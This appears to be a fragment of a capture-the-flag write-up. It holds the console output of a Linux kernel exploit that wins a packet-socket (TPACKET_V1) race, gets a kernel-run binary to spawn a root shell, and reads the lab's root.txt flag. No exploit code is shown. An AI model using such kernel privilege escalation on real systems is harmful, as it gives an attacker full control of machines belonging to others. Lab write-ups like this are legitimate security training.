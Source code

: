 ```console
version switcher stopping, x = -1 (y = 124189, last val = 2)
current packet version = 0
pbd->hdr.bh1.offset_to_first_pkt = 48
*=*=*=* TPACKET_V1 && offset_to_first_pkt != 0, race won *=*=*=*
please wait up to a few minutes for timer to be executed. if you ctrl-c now the kernel will hang. so don't do that.
closing socket and verifying......
sysctl added!

stage 2 completed
binary executed by kernel, launching rootshell
root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare),1000(loly)
root@ubuntu:/tmp# cd /root
root@ubuntu:/root# ls
root.txt
root@ubuntu:/root# cat root.txt
  ____               ____ ____  ____  
 / ___| _   _ _ __  / ___/ ___||  _ \ 
 \___ \| | | | '_ \| |   \___ \| |_) |
  ___) | |_| | | | | |___ ___) |  _ < 
 |____/ \__,_|_| |_|\____|____/|_| \_\
                                      
Congratulations. I'm BigCityBoy
```
